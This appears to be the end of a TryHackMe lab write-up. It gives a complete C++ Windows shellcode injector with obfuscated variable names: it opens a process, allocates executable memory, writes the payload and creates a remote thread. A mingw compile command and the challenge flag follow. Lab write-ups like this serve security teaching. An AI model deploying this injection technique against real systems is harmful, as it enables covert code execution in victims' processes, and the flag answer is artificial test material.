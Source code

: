 
    ```
    #include "windows.h"

    int main(int argc, char* argv[])
    {
        unsigned char shellcode[] = "";

        HANDLE burhs;
        HANDLE kdhfl;
        PVOID grmks;
        
        burhs = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
        grmks = VirtualAllocEx(burhs, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(burhs, grmks, shellcode, sizeof shellcode, NULL);
        kdhfl = CreateRemoteThread(burhs, NULL, 0, (LPTHREAD_START_ROUTINE)grmks, NULL, 0, NULL);
        CloseHandle(burhs);
        
        return 0;
    } 
    ```

    ![task8-compile](./images/task8-compile.png)

    ```
    x86_64-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe
    ```

    ![task8-flag](./images/task8-flag.png)

    **Answer : THM{Y0Ur_1NF0_15_M1N3}**

## Task 9 - Conclusion
